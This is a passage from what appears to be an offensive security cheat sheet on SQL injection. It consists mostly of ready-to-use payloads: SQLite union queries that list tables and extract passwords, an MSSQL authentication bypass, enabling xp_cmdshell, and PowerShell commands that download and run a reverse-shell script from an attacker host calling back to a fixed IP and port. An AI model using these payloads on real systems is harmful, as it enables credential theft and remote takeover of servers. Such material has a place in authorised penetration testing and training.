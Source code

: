 ```sql
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

- Extracting table users

```sql
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

- Reference  
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

### MSSQL Injection

- Bypass Authentication

```
' or 1=1--
```

- Get version+delay

```
' SELECT @@version; WAITFOR DELAY '00:00:10'; —
```

- Enable xp_cmdshell

```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

- RCE

```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;--
```

- Refernce 
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

### Abuse MSSQL

- Edit Invoke-PowerShellTcp.ps1, adding this:  

```powershell
# Windows
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```

```sh
# kali
impacket-mssqlclient <user>@<ip> -db <database>
```

```cmd
#windows
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<ip>/Invoke-PowerShellTcp.ps1\")
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
